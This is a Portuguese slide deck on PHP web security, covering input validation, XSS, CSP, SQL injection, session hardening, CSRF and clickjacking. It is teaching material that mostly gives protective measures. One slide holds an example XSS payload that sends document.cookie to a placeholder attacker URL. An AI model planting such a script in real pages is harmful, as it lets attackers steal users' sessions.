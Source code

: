 #HSLIDE
# Segurança no desenvolvimento web
<link rel="stylesheet" type="text/css" href="https://fonts.googleapis.com/css?family=Ubuntu+Mono">

#HSLIDE
## Pilares da Segurança da Informação  
- Confidencialidade
- Integridade
- Disponibilidade
## Princípios  
- Segurança em múltiplas camadas
- Considere que cada camada eventualmente falhará
- Forneça o mínimo de informação necessária

#HSLIDE
## Validação de entradas
Considerando que a requisição HTTP pode ser manipulada pelo cliente, toda entrada do usuário deve ser validada.

#HSLIDE
### Proteção
- Para isso, o PHP oferece as extensões ***ctype*** e ***filter***. 
Além disso, a maioria dos frameworks de mercado implementam algum tipo de tratamento/sanitização de dados.
- PHP 7+ oferece ***type declarations*** que permitem especificar o tipo esperado de parâmetros.
Para isso:
```php
declare(strict_types=1);
```
#HSLIDE
## Cross-site scripting (XSS)
Ocorre quando um script inserido por um usuário é armazenado e/ou executado pela aplicação. 

#HSLIDE
### Exemplo
```javascript
<script>
(new Image()).src = “http://urldoatacante/?” + escape(document.cookie);
</script>
```
#HSLIDE
### Tipos
* Armazenado
* Não-persistente
* Baseado em DOM

#HSLIDE
### Consequências
- Roubo de *cookie*/sessão
- Manipulação de DOM
- *Keylogger*
- *Browser exploits*
- Basicamente tudo que o JavaScript permite

#HSLIDE
### Proteção
- [*Same-origin Policy*](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) faz com que apenas códigos do mesmo *origin* (protocolo/domínio/porta) tenham acesso à aplicação, ao mesmo tempo que permite acesso a arquivos externos (uma lib como o [JQuery](https://jquery.com/), por exemplo)
- Filtrar entradas ([*strip_tags*](http://php.net/manual/en/function.strip-tags.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php), [*preg_replace*](http://php.net/manual/en/function.preg-replace.php))
- Escapar as saídas ([*htmlspecialchars*](http://php.net/manual/en/function.htmlspecialchars.php), [*htmlentities*](http://php.net/manual/en/function.htmlentities.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php))
- Aplicar [*Content Security Policy*](https://content-security-policy.com/) (*default-src*, *img-src*, *script-src*) -> eliminar código inline
#HSLIDE
### Testando a CSP
```
Content-Security-Policy-Report-Only
report-uri /caminho/arquivo.php
```

#HSLIDE
## SQL Injection

### Proteção
- Não concatenar dados (parâmetros) com comandos
- Utilizar prepared statements
- Validar entradas
- Escapar caracteres

#HSLIDE
## Gerenciamento de estado

### Proteção
- Usar HTTPS
- Definir *secure* e *HttpOnly* *flags*
- Prevenir XSS
- [Alterar](http://php.net/manual/en/function.session-regenerate-id.php) ID de sessão
- Armazenar informação do usuário na sessão (*headers*)
- Detectar sequestro de sessão
- Usar [HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet) para dificultar o roubo de sessão

#HSLIDE
### Diretivas
```php
session.use_strict_mode = true;
session.cookie_secure = true;
session.use_only_cookies = true;
session.cookie_httponly = true;

Strict-Transport-Security: max-age=86400; includeSubDomains
```

#HSLIDE
## Cross-site Request Forgery (CSRF)
- Causado por vírus, scam/phishing, site/redirecionamento malicioso

### Proteção
- Não usar GET para operações que envolvam manipulação de dados (porém, o POST também pode ser manipulado)
- Enviar token 
#HSLIDE
### Clickjacking
- Atacante cria página e, através de requisições para o site alvo (usualmente via iframe), aproveita-se da sessão do usuário

#### Proteção
```php
header(‘X-FRAME-OPTIONS’, ‘DENY’); //ou SAMEORIGIN
```

#HSLIDE
## Ferramentas
- [Arachni web scanner](http://www.arachni-scanner.com/)
- [Dependencies security checker](https://github.com/sensiolabs/security-checker)

#HSLIDE
## Referências
[OWASP](https://www.owasp.org)
